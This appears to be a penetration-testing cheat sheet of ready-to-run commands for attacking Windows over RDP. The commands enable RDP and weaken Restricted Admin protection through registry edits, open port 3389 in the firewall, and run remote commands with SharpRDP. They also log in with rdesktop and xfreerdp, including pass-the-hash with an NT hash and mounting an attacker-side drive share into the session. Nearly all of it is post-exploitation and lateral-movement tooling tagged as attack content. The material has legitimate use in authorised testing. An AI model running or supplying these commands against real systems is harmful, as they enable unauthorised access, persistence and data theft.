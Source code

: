 # windows rdp

% rdp, windows, 3389
#plateform/windows  #target/local  #protocol/rdp #port/3389

## enable RDP
#cat/POSTEXPLOIT 
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## enable restricted admin
#cat/POSTEXPLOIT 
```
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

## disable restricted admin
#cat/POSTEXPLOIT 
```
Remove-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin
```

## rdp from console
```
sharprdp.exe computername=<computer> command="<command>" username=<domain>\<user> password=<password>
```

## Add firewall authorisation RDP
#cat/POSTEXPLOIT 
```
netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (TCP-In)" dir=in action=allow program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the Remote Desktop service to allow RDP traffic. [TCP 3389] added by LogicDaemon's script" enable=yes profile=private,domain localport=3389 protocol=tcp
```

# rdesktop
% rdp, windows
#plateform/linux  #target/remote  #protocol/rdp #port/3389 #cat/ATTACK/CONNECT 

## rdesktop - classic
```
rdesktop -g 90% <target_ip> -u <user> -p <password> -d <domain>
```

## rdesktop - with share
```
rdesktop -g 90% <target_ip> -u <user> -p <password> -d <domain> -r disk:share=<share>
```

# xfreerdp

% rdp, windows
#plateform/linux  #target/remote  #protocol/rdp #port/3389 #cat/ATTACK/CONNECT 

## xfreerdp - classic
```
xfreerdp /u:<user> /p:<password> /d:<domain> /v:<target_ip> /size:1920x1080
```

## xfreerdp - password with share
```
xfreerdp /u:<user> /p:<password> /d:<domain> /v:<target_ip> /size:1920x1080 /drive:PandorasBox,<local_path|/home/kali/PandorasBox>
```

## xfreerdp - pass the hash
```
xfreerdp /u:<user> /pth:<nthash> /d:<domain> /v:<target_ip>
```

## xfreerdp - hash with share
```
xfreerdp /u:<user> /pth:<nthash> /d:<domain> /v:<target_ip> /size:1920x1080 /drive:PandorasBox,<local_path|/home/kali/PandorasBox>
```
